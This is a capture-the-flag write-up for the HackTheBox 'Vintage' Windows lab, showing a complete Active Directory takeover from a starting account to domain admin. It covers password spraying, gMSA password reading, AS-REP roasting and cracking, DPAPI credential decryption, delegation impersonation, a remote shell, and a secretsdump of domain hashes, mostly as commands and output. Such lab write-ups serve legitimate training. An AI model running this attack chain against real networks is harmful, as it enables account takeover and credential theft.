


Vintage is really great machine. Geiseric quality u know im saying.

Before start!!!!!!

```sh
Make sure the cleanup script is not cleaning ur scripts. Especially on svc_sql part
```
## Entry

```bash
As is common in real life Windows pentests, you will start the Vintage box with credentials for the following account: P.Rosa / Rosaisbest123
```

Lets start with creds its common windows pentest there is no web server etc.

Even before start we got something different.

```bash
➜  Vintage nxc smb 10.10.11.45
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
```

Didnt get any DC and domain name here. So lets run for ldap

```bash
➜  Vintage nxc ldap 10.10.11.45
LDAP        10.10.11.45     389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
```

nice we got it lets add them in /etc/hosts

```bash
➜  Vintage cat /etc/hosts 
[SNIP]
10.10.11.45     DC01.vintage.htb vintage.htb
```
Lets verify creds.


What does it mean? 

its only work with “-k” options WHY?

> without -k → NTLM Authentication
> 

> with -k options → Kerberos Authentication
> 

So lets continue with -k options such w have only kerberos auth. I will run `--users` for check usernames and if any different description we have.

### Enum-more

```bash
➜  Vintage nxc smb DC01.vintage.htb -u P.Rosa -p 'Rosaisbest123' -k --users
```


We didnt get any description which is misconfiguration but we have usernames list. Lets create usernames list. (We will back here for now its useless)

#### username-list

```bash
➜  Vintage cat nxcusers.txt | awk '{print $5}' > users.txt
➜  Vintage cat users.txt 
Administrator
Guest
krbtgt
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

Lets do password spray as we have password 😀


we didnt get anything but at least we tried. We were have ldap access SO? lets dump BH data.

### bloodhound-data

```bash
➜  Vintage nxc ldap DC01.vintage.htb -u P.Rosa -p 'Rosaisbest123' -k --bloodhound --dns-server 10.10.11.45 --collection All
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123 
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Resolved collection methods: psremote, session, group, acl, objectprops, trusts, container, localadmin, rdp, dcom
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Using kerberos auth without ccache, getting TGT
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Done in 00M 28S
LDAP        DC01.vintage.htb 389    dc01.vintage.htb Compressing output into /root/.nxc/logs/dc01.vintage.htb_DC01.vintage.htb_2025-04-24_153112_bloodhound.zip
```

Wait what???? Nothing interesting….

What we can do??? Lets run `--rid-brute`  on Netexec instead of `--users` .

- `-users`: Tries known usernames from a list (no guessing).
- `-rid-brute`: Guesses usernames by brute-forcing RIDs (relative IDs) from the domain SID — useful when no username list is available.

💡 Use `--rid-brute` when you want to *discover* valid users; use `--users` when you *already have* a list.


we got different results here its probably Machine account but still found something more usefull

And yeah i was correct.


Nice lets enum FS01 machine account more with [PowerView](https://github.com/aniqfakhrul/powerview.py)

### login-powerview

```bash
➜  Vintage getTGT.py -hashes :$(pypykatz crypto nt 'Rosaisbest123') 'vintage.htb'/'p.rosa'@10.10.11.45
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in p.rosa@10.10.11.45.ccache
```

lets export it and look klist.

```bash
➜  Vintage export KRB5CCNAME=p.rosa@10.10.11.45.ccache
➜  Vintage klist
Ticket cache: FILE:p.rosa@10.10.11.45.ccache
Default principal: p.rosa@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 15:50:14  04/25/2025 01:50:14  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 15:50:14
```

Lets login powerview and check FS01 Properties

```bash
➜  Vintage powerview vintage.htb/'P.Rosa'@DC01.vintage.htb --dc-ip 10.10.11.45 -k --no-pass
Logging directory is set to /root/.powerview/logs/vintage-p.rosa-dc01.vintage.htb
[2025-04-24 15:51:24] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAP)-[dc01.vintage.htb]-[VINTAGE\P.Rosa]
PV > Get-DomainComputer -Identity FS01 -Properties *
```


its great we learn something new so lets check privileges of FS01 machine account. So we can understand everything more clear.
### pre2k

```powershell
➜  Vintage nxc ldap DC01.vintage.htb -u usernames.txt -p fs01 -k -M pre2k
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\Administrator:fs01 KDC_ERR_PREAUTH_FAILED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\Guest:fs01 KDC_ERR_CLIENT_REVOKED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\krbtgt:fs01 KDC_ERR_CLIENT_REVOKED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\DC01$:fs01 KDC_ERR_PREAUTH_FAILED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [-] vintage.htb\gMSA01$:fs01 KDC_ERR_PREAUTH_FAILED
LDAP        DC01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\FS01$:fs01 
PRE2K       DC01.vintage.htb 389    dc01.vintage.htb [+] Successfully obtained TGT for 0 pre-created computer accounts. Saved to /root/.nxc/modules/pre2k/ccache
```

and booomm!!!

```bash
➜  Vintage nxc smb DC01.vintage.htb -u FS01$ -p fs01   
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\FS01$:fs01 STATUS_NOT_SUPPORTED 
➜  Vintage nxc smb DC01.vintage.htb -u FS01$ -p fs01 -k
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\FS01$:fs01 
```

we have kerberos auth with fs01 but its just pre2k so nothing important too much. we can continue directly.

## ReadGMSAPassword


We can do it really easy with bloodyAD.

```bash
➜  Vintage bloodyAD -k --host DC01.vintage.htb -d vintage.htb -u 'FS01$' -p 'fs01'  get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178

```

so we got new creds GMSA01$ : b3a15bbdfb1c53238d4b50ea2c4d1178

```bash
➜  Vintage nxc smb DC01.vintage.htb -u 'GMSA01$' -H b3a15bbdfb1c53238d4b50ea2c4d1178 -k 
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\GMSA01$:b3a15bbdfb1c53238d4b50ea2c4d1178 
```

and yeah its work now lets check GMSA01$ can do?


noice we can add member of this group. and


we have GenericAll for some users lets do this!!!

## Add-Member

### bloodyAD

lets grab ccache first and export it.

```bash
➜  Vintage getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178 'vintage.htb/GMSA01$'

Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in GMSA01$.ccache
➜  Vintage export KRB5CCNAME=GMSA01\$.ccache          
➜  Vintage klist
Ticket cache: FILE:GMSA01$.ccache
Default principal: GMSA01$@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 16:54:53  04/25/2025 02:54:53  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 16:54:52

```

Lets use bloodyAD. im gonna add P.Rosa cause we have already his pass

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS
```

Lets add with PowerView 😀

### PowerView

```bash
➜  Vintage powerview vintage.htb/'GMSA01$'@DC01.vintage.htb --dc-ip 10.10.11.45 -k --no-pass 
Logging directory is set to /root/.powerview/logs/vintage-gmsa01$-dc01.vintage.htb
[2025-04-24 17:13:40] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAP)-[dc01.vintage.htb]-[VINTAGE\gMSA01$]
PV > Add-DomainGroupMember -Identity SERVICEMANAGERS -Members p.rosa
[2025-04-24 17:13:42] User p.rosa successfully added to SERVICEMANAGERS

```

noice! now we are member of SERVICEMANAGERS Lets see what we can do.


okey now important part
Using the GenericAll authority on the svc_sql user of the SERVICEMANAGERS group, we first activate the account, then add servicePrincipalName and obtain the password for the user using the Kerberoasting method.

## activate the account

First of all we will use P.Rosa because we already added him in SERVICEMANGERS group

```bash
➜  Vintage klist
Ticket cache: FILE:p.rosa@10.10.11.45.ccache
Default principal: p.rosa@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 17:07:48  04/25/2025 03:07:48  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 17:07:48
```

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH 
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl
```

we can check with bloodyAD too.

```bash
➜  Vintage bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -k get search  --filter "(objectClass=user)" --attr userAccountControl
```


Lets enable it 

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

now its work

```bash
➜  Vintage bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -k get search  --filter "(objectClass=user)" --attr userAccountControl
distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH
```


Noice now we can check if its really work with powerview

```bash
(LDAP)-[dc01.vintage.htb]-[VINTAGE\P.Rosa]
PV > Get-DomainUser -PreauthNotRequired

cn                                : svc_ark
distinguishedName                 : CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
memberOf                          : CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
name                              : svc_ark
objectGUID                        : {c992370c-b510-4ff5-b3bf-eeb716183845}
userAccountControl                : NORMAL_ACCOUNT [4260352]
                                    DONT_EXPIRE_PASSWORD
                                    DONT_REQ_PREAUTH
badPwdCount                       : 0
badPasswordTime                   : 07/06/2024 08:28:03 (10 months, 17 days ago)
lastLogoff                        : 0
lastLogon                         : 24/04/2025 21:54:44 (today)
pwdLastSet                        : 06/06/2024 13:45:27 (10 months, 18 days ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4024337825-2033394866-2055507597-1136
sAMAccountName                    : svc_ark
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=vintage,DC=htb
msDS-SupportedEncryptionTypes     : 

cn                                : svc_ldap
distinguishedName                 : CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
memberOf                          : CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
name                              : svc_ldap
objectGUID                        : {3b90b174-1c8b-4d97-9455-caadb41c2b30}
userAccountControl                : NORMAL_ACCOUNT [4260352]
                                    DONT_EXPIRE_PASSWORD
                                    DONT_REQ_PREAUTH
badPwdCount                       : 0
badPasswordTime                   : 07/06/2024 08:28:03 (10 months, 17 days ago)
lastLogoff                        : 0
lastLogon                         : 24/04/2025 21:54:44 (today)
pwdLastSet                        : 06/06/2024 13:45:27 (10 months, 18 days ago)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4024337825-2033394866-2055507597-1135
sAMAccountName                    : svc_ldap
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=vintage,DC=htb
msDS-SupportedEncryptionTypes     : 

cn                                : svc_sql
distinguishedName                 : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
memberOf                          : CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
name                              : svc_sql
objectGUID                        : {3fb41501-6742-4258-bfbe-602c3a8aa543}
userAccountControl                : NORMAL_ACCOUNT [4260352]
                                    DONT_EXPIRE_PASSWORD
                                    DONT_REQ_PREAUTH
badPwdCount                       : 0
badPasswordTime                   : 07/06/2024 08:28:03 (10 months, 17 days ago)
lastLogoff                        : 0
lastLogon                         : 24/04/2025 21:54:44 (today)
pwdLastSet                        : 24/04/2025 22:12:08 (today)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-4024337825-2033394866-2055507597-1134
sAMAccountName                    : svc_sql
sAMAccountType                    : SAM_USER_OBJECT
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=vintage,DC=htb
msDS-SupportedEncryptionTypes     :
```

Lets run GetNPUsers.py for grab kerberoast hash


and we got it lets crack it.

```bash
➜  Vintage john svc_sql_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Zer0the0ne       ($krb5asrep$23$svc_sql@VINTAGE.HTB)
```

BOMMM!!! Lets do password spray.

```bash
➜  Vintage nxc smb DC01.vintage.htb -u users.txt -p 'Zer0the0ne' -k
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\C.Neri:Zer0the0ne
```

noice its work for C.Neri toooooo.


We are member of RemoteManagementUsers noice!!!!!! lets get beacon.

First we got ccache

```bash
➜  Vintage getTGT.py -hashes :$(pypykatz crypto nt 'Zer0the0ne') 'vintage.htb'/'C.Neri'@10.10.11.45 
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri@10.10.11.45.ccache
```

and export it

```bash
➜  Vintage export KRB5CCNAME=C.Neri@10.10.11.45.ccache 
➜  Vintage klist
Ticket cache: FILE:C.Neri@10.10.11.45.ccache
Default principal: C.Neri@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 18:35:51  04/25/2025 04:35:51  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 18:35:51
```

now we have to configure /etc/krb5.conf

```bash
[libdefaults]
        default_realm = VINTAGE.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        VINTAGE.HTB = {
                kdc = vintage.htb
                admin_server = vintage.htb
                default_admin = vintage.htb
        }
[domain_realm]
        .vintage.htb = VINTAGE.HTB
```

anndd bommomomoomom!!!

```bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd C:\Users\C.Neri\Desktop
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> dir

    Directory: C:\Users\C.Neri\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          6/7/2024   1:17 PM           2312 Microsoft Edge.lnk
-ar---         4/24/2025  11:50 PM             34 user.txt

*Evil-WinRM* PS C:\Users\C.Neri\Desktop> type user.txt
2e9676ff1aa13cbf33071e5ddab2b9dc
```

## DPAPI

### 🔐 What is DPAPI?

**DPAPI (Data Protection API)** is a Windows feature used to securely store sensitive data like passwords, private keys, and credentials. It handles encryption and decryption without needing the developer to manage keys manually.

### ⚙️ How does DPAPI work?

- **Encryption**: Uses the user’s login credentials or system secrets to encrypt data.
- **Decryption**: Only the same user or system context can decrypt the data.
- **Security**: Tied to Windows accounts — only the original user (or admin) can access their encrypted data.

```bash
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir -force

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> 
```

as u can see `dir` not work here its similar to `ls -la` at Linux.

Lets download it and

First of all we need `Decrypted key` and we can get with

```bash
➜  Vintage dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne 
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

now time to encrypt it.

```bash
➜  Vintage dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

BOMMMM!!! 

```bash
➜  Vintage nxc smb DC01.vintage.htb -u users.txt -p 'Uncr4ck4bl3P4ssW0rd0312' -k
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\C.Neri_adm:Uncr4ck4bl3P4ssW0rd0312 
```

WE have AdSelf privileges again


Lets see DelegatAdmins what they can do


Noice we are so close.


## AddMember

### bloodyAD

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS
```

we can verify with powerview

```bash
(LDAP)-[dc01.vintage.htb]-[VINTAGE\C.Neri_adm]
PV > Get-DomainGroupMember -Identity DELEGATEDADMINS
GroupDomainName             : DelegatedAdmins
GroupDistinguishedName      : CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
MemberDomain                : vintage.htb
MemberName                  : svc_sql
MemberDistinguishedName     : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
MemberSID                   : S-1-5-21-4024337825-2033394866-2055507597-1134

GroupDomainName             : DelegatedAdmins
GroupDistinguishedName      : CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
MemberDomain                : vintage.htb
MemberName                  : C.Neri_adm
MemberDistinguishedName     : CN=C.Neri_adm,CN=Users,DC=vintage,DC=htb
MemberSID                   : S-1-5-21-4024337825-2033394866-2055507597-1140

GroupDomainName             : DelegatedAdmins
GroupDistinguishedName      : CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb
MemberDomain                : vintage.htb
MemberName                  : L.Bianchi_adm
MemberDistinguishedName     : CN=L.Bianchi_adm,CN=Users,DC=vintage,DC=htb
MemberSID                   : S-1-5-21-4024337825-2033394866-2055507597-1141
```

Noice lets do this shit.

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake" 
[+] SVC_SQL's servicePrincipalName has been updated
```

now we can do RBCD. First we have to refrest svc_sql ccache

```bash
➜  Vintage getTGT.py vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb                                                       
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache
```

nice lets grab member of admin 

```bash
➜  Vintage getST.py -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating L.BIANCHI_ADM
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

nice!!!

```bash
➜  Vintage klist
Ticket cache: FILE:L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
Default principal: L.BIANCHI_ADM@vintage.htb

Valid starting       Expires              Service principal
04/24/2025 19:55:23  04/25/2025 05:55:15  cifs/dc01.vintage.htb@VINTAGE.HTB
```

Lets finish this box.

```bash
➜  Vintage wmiexec.py -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vintage\l.bianchi_adm
C:\>type C:\Users\Administrator\Desktop\root.txt
2f8a01858c0f21dbb4d3b834a9fda22
```

## BONUS

### DPAPI part with Cobalt Strike

Lets grab SID first


Noice lets grab guidMasterKey


Great now we need enc key


now we just need Decyrpt it

```bash
[04/24 20:08:31] beacon> mimikatz dpapi::cred /in:C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6 /masterkey:f8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```


## Full-dump

```bash
➜  Vintage secretsdump.py -k -no-pass "VINTAGE.HTB/L.BIANCHI_ADM"@"DC01.vintage.htb"    
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb632ebd8c7df30094b6cea89cdf372be
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e41bb21e027286b2e6fd41de81bce8db:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
VINTAGE\DC01$:plain_password_hex:ca385c025f7b81712d83d60e6c6ac2c6787e877114fe8342bd9b496572c6e1f3d2c82dee411d9bbdb6dc1eb7981bea8a7faa98d2b6efab8b3a90f85d48a3ec66c5f2b4c6d2d4ca747927ab1efd025f66a8e6914917e5d1e6112c7f2a668129ae0303f41f6b0b6c01219c09522da4f5cf9050bed3954973f14a4ff49a12f64d570d6cbd466b81c2ec86c0758213f35cf6db976b25aac295fe3e3953ca30cbe3afc9677d932d95cca63da09ad700abc22a9836ddb44de0be762f12f46eba649b293794f50a946898d1a786dfcac9582bd20e8fd21a9678d1e2d82b7bf3dec2f03bf67ab63d73ec4b34968678a77c3f6106
VINTAGE\DC01$:aad3b435b51404eeaad3b435b51404ee:2dc5282ca43835331648e7e0bd41f2d5:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x329e3f315c1e7294f086908d3d14c990c030305a
dpapi_userkey:0x2bd12147462ab2b6e92adcb202c9d8258c270790
[*] NL$KM 
 0000   7E F4 65 54 4C 71 04 1D  24 FC 9B ED 7B 0D B1 1B   ~.eTLq..$...{...
 0010   F0 E6 0E BF EF 13 78 C1  04 48 9F AE 46 49 39 A5   ......x..H..FI9.
 0020   D6 A9 94 E1 CC 13 FB 7D  29 02 00 C1 F8 CD 61 F3   .......}).....a.
 0030   8C 6D 56 42 1E 8B 3A 92  E1 8E E0 3C 6E 77 04 BC   .mVB..:....<nw..
NL$KM:7ef465544c71041d24fc9bed7b0db11bf0e60ebfef1378c104489fae464939a5d6a994e1cc13fb7d290200c1f8cd61f38c6d56421e8b3a92e18ee03c6e7704bc
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:be3d376d906753c7373b15ac460724d8:::
M.Rossi:1111:aad3b435b51404eeaad3b435b51404ee:8e5fc7685b7ae019a516c2515bbd310d:::
R.Verdi:1112:aad3b435b51404eeaad3b435b51404ee:42232fb11274c292ed84dcbcc200db57:::
